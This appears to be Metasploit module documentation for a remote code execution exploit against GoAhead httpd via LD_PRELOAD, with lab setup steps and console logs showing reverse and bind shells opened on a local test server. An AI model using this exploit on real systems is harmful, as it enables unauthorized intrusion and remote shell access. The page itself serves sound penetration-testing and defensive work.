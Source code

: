## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulnerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
../build/linux-x64-default/bin/goahead . 127.1.1.1:8080
```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_ldpreload```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **TARGET_URI**

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```

msf> use exploit/linux/http/goahead_preload
msf exploit(goahead_ldpreload) > set RHOST 127.1.1.1
msf exploit(goahead_ldpreload) > set RPORT 8080
msf exploit(goahead_ldpreload) > check

[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[+] 127.1.1.1:8080 The target is vulnerable.

msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 4 opened (127.0.0.1:4444 -> 127.0.0.1:32988) at 2017-12-28 16:26:50 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 1
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[*] Started bind handler
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 5 opened (127.0.0.1:30836 -> 127.1.1.1:4444) at 2017-12-28 16:28:04 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 2
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP double handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sNRXNjxWl7ic0uWw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sNRXNjxWl7ic0uWw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 6 opened (127.0.0.1:4444 -> 127.0.0.1:32995) at 2017-12-28 16:28:56 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


msf exploit(goahead_ldpreload) > set TARGET 4
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 7 opened (127.0.0.1:4444 -> 127.0.0.1:33000) at 2017-12-28 16:29:34 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```


## Logging

Each 404 error will generate a console or log entry similar to `goahead: 0: Cannot find CGI program:`.
